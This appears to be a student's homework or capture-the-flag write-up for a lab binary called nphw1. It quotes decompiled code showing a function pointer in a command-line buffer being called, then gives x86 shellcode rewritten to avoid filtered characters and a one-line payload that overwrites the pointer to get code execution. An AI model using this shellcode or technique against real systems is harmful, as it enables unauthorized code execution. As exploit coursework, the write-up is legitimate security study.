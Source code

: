 # HW2-1 nphw1
**0016302 heron**

## Problem
Exploit nphw1.

## Observation
From the following decompiled code, we can see that if cmdline[10002] is as same as cmdline[11006] or cmdline[11008], then cmdline[11005] or cmdline[11007] will be executed.
```
for ( i = 0; i <= 1; ++i )
{
    if ( !strcmp(*(&cmdline + 10002), (&cmdline)[8 * (i + 5502) + 8]) )
    {
        ((void (*)(void))(&cmdline)[8 * (i + 5502) + 4])();
        goto LABEL_27;
    }
}
```

So, we should do the followings:
- Make cmdline[10002] as same as cmdline[11006] (say 'a' here)
- Put shellcode at cmdline[11005]

## Usable Shellcode
Since some characters are not acceptable here, like: "./ <>=", we should rewrite our shellcode from the original ones. And, here's my code which combined from previous alphanumeric problem:

```
char *shellcode = "\x31\xc0\x50\x50\x50YZj0X5JCCX5Ul00Pj0X5JRYY5U007P\x31\xc0\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
```


## Step
```
cmdline[10002]: first input token
...
cmdline[11005]: function handler for printenv
cmdline[11006]: "printenv"
...
```
So, I am inserting:
```
cmdline[10002]: 'a'
...
cmdline[11005]: <shellcode>
cmdline[11006]: 'a'
...
```

## Solution
```
print " a " * 1003 + " \x31\xc0\x50\x50\x50YZj0X5JCCX5Ul00Pj0X5JRYY5U007P\x31\xc0\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80 " + " a "
```
